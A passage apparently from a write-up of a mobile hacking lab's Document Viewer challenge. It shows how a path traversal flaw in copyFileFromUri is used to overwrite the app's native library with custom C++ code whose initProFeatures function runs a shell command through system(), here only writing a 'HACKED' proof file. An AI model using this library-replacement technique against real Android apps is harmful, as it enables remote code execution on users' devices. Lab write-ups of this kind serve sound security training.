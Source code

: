 ```java
```

## Exploit

Since we have a path traversal vulnerability in the `copyFileFromUri` method we can use this to write our custom `libdocviewer_pro.so` that will allow us to trigger an RCE.
We will use android studio to create the binary with the same name `com.mobilehackinglab.documentviewer`

![img-description](2.png)

We also use the same function name in the cpp file `initProFeatures`.

```c
#include <jni.h>
#include <string>

extern "C" JNIEXPORT jstring JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_stringFromJNI(
        JNIEnv* env,
        jobject /* this */) {
    std::string hello = "Hello from C++";
    return env->NewStringUTF(hello.c_str());
}

extern "C" JNIEXPORT jstring JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_initProFeatures(
        JNIEnv* env,
        jobject /* this */) {
    system("echo \"HACKED\" > /data/data/com.mobilehackinglab.documentviewer/proof.txt");
}
```
